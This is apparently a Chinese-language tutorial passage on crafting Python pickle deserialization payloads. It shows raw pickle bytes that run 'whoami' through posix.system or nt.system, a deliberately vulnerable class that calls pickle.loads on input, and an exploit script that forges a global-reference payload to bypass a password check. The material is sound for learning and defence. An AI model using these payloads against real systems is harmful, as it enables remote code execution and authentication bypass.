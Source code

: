 ### 构造反序列化payload

>https://github.com/Macr0phag3/souse
>
>#### 注意事项
>
>pickle序列化的结果与操作系统有关，使用windows构建的payload可能不能在linux上运行。比如：
>
>```
># linux(注意posix):
>b'cposix\nsystem\np0\n(Vwhoami\np1\ntp2\nRp3\n.'
>
># windows(注意nt):
>b'cnt\nsystem\np0\n(Vwhoami\np1\ntp2\nRp3\n.'
>```

#### 全局引入

```python
import secret

class Target:
    def __init__(self):
        obj = pickle.loads(ser)  # 输入点
        if obj.pwd == secret.pwd:
            print("Hello, admin!")
```

exp

```python
import pickle
import pickletools

class secret:
    pwd = "???"

class Target:
    def __init__(self):
        self.pwd = secret.pwd

test = Target()

serialized = pickletools.optimize(pickle.dumps(test, protocol=3))
print(serialized)
pickletools.dis(serialized)
'''
结果
b'\x80\x03c__main__\nTarget\n)\x81}X\x03\x00\x00\x00pwdX\x03\x00\x00\x00???sb.'

payload
b'\x80\x03c__main__\nTarget\n)\x81}X\x03\x00\x00\x00pwdcsecret\npwd\nsb.'
'''

pickletools.dis(pickletools.optimize(b'\x80\x03c__main__\nTarget\n)\x81}X\x03\x00\x00\x00pwdcsecret\npwd\nsb.'))
print('pickle pwd -> ' + pickle.loads(b'\x80\x03c__main__\nTarget\n)\x81}X\x03\x00\x00\x00pwdcsecret\npwd\nsb.').pwd)
```
